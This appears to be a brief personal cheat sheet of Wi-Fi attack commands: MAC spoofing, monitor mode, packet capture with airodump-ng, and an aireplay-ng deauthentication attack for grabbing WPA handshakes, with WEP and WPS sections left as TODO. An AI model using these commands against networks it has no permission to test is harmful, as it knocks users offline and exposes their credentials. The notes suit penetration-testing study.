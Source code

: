 # Configuration
ifconfig wlan0 down
ifconfig wlan0 hw ether 00:11:22:33:44:55 - change MAC address
airmon-ng check kill - Monitor mode only needed in pre-connection attacks, no internet connection needed
iwconfig wlan0 mode monitor/managed
ifconfig wlan0 up

# Monitoring networks
airodump-ng wlan0
airodump-ng --bssid {BSSID} --channel {CHANNEL} --write {FILE} wlan0

# Deauth attack
Change wlan0 MAC to CLient BSSID MAC
aireplay-ng --deauth {NUM_PACKETS} -a {ROUTER_BSSID} -c {CLIENT_BSSID} wlan0

# WEP 
TODO

# WPA/WPA2 with WPS
TODO

# WPA/WPA2 
## Receive handshake
= Network monitoring + deauth attack
